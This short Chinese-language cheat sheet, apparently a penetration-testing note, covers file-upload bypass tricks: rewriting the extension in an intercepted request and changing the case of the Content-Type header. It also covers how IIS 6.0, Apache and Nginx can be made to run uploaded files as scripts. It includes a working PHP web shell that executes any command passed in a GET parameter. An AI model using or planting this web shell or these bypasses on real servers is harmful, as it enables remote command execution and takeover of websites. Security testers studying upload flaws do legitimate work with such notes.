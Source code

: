 ## 前端
1. 抓包改后缀名
2.  Content-Type multipart/form-data更改大小写为Multipart/form-data
3. 更改代码
```php
<script language="php">
@system($_GET['c']);
</script>
```

## 文件解析漏洞
IIS6.0 
- IIS6.0 1.asa 1.asp文件夹时，目录下任何文件当做asp解析。
- 1.asp;1.jpg会被当做asp解析

Apache：
认为一个文件可以拥有多个扩展名，从右到左开始解析，直到判断到可识别文件名为止，例如1.php.xxx

Nginx:
/test.jpg/text.php 会把test.jpg当做php解析